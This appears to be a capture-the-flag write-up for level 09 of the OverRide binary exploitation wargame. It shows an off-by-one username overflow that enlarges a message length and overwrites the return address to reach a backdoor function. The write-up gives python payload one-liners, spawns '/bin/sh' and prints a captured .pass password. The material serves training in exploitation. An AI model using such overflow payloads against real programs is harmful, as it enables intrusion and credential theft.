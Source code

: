# Level 09

We can overflow the username by one byte, and luckly this byte will be used as the length of the message, which is set to 140 by default. But if we make it bigger, we can overflow the EIP.

```shell
python -c 'print 10 * "Peer" + "\xff" ' | ./level09 
```

The address of secret_backdoor is `0x00 00 55 55 55 55 48 8c`.
The offset is 200 (thanks to [Our trusty pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)).
The length of offset + address = 208, converted to hex is D0.

Our exploit becomes:
```shell
level09@OverRide:~$ (python -c 'print 10 * "Peer" + "\xd0";print 200 * "B" + "\x8c\x48\x55\x55\x55\x55\x00\x00";print "/bin/sh" '; cat -) | ./level9
"--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, PeerPeerPeerPeerPeerPeerPeerPeerPeerPeer�>: Msg @Unix-Dude
>>: >: Msg sent!"
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
